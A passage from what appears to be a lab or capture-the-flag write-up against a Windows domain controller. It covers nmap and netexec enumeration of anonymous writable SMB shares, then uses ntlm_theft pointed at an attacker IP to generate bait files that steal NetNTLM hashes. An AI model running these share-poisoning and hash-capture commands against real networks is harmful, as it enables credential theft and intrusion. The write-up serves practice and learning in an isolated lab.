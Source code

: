 ```bash
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-08T13:22:42
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 12s, deviation: 0s, median: 11s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.04 seconds
```

Appended the newly discovered domain and hostname to /etc/hosts.

```bash
echo -e "10.10.114.160\tbreach.vl breachdc.breach.vl" | sudo tee -a /etc/hosts
10.10.114.160   breach.vl breachdc.breach.vl
```

**SMB anonymous login** is enabled and we have write permissions over a share. 

```bash
netexec smb 10.10.114.160 -u "anonymous" -p "" --shares
SMB         10.10.114.160   445    BREACHDC         [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB         10.10.114.160   445    BREACHDC         [+] breach.vl\anonymous: 
SMB         10.10.114.160   445    BREACHDC         [*] Enumerated shares
SMB         10.10.114.160   445    BREACHDC         Share           Permissions     Remark
SMB         10.10.114.160   445    BREACHDC         -----           -----------     ------
SMB         10.10.114.160   445    BREACHDC         ADMIN$                          Remote Admin
SMB         10.10.114.160   445    BREACHDC         C$                              Default share
SMB         10.10.114.160   445    BREACHDC         IPC$            READ            Remote IPC
SMB         10.10.114.160   445    BREACHDC         NETLOGON                        Logon server share 
SMB         10.10.114.160   445    BREACHDC         share           READ,WRITE      
SMB         10.10.114.160   445    BREACHDC         SYSVOL                          Logon server share 
SMB         10.10.114.160   445    BREACHDC         Users           READ            
```

# Exploitation

This is a Windows host so it’s always a good take trying to poison writable shares. This [blog post](https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/) does a great job at explaining the different techniques, but I will be using [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) for simplicity.

```bash
python3 ntlm_theft.py -g all -s 10.8.1.206 -f dusk

tree dusk                  
dusk
├── Autorun.inf
├── desktop.ini
├── dusk.application
├── dusk.asx
...

1 directory, 21 files
```
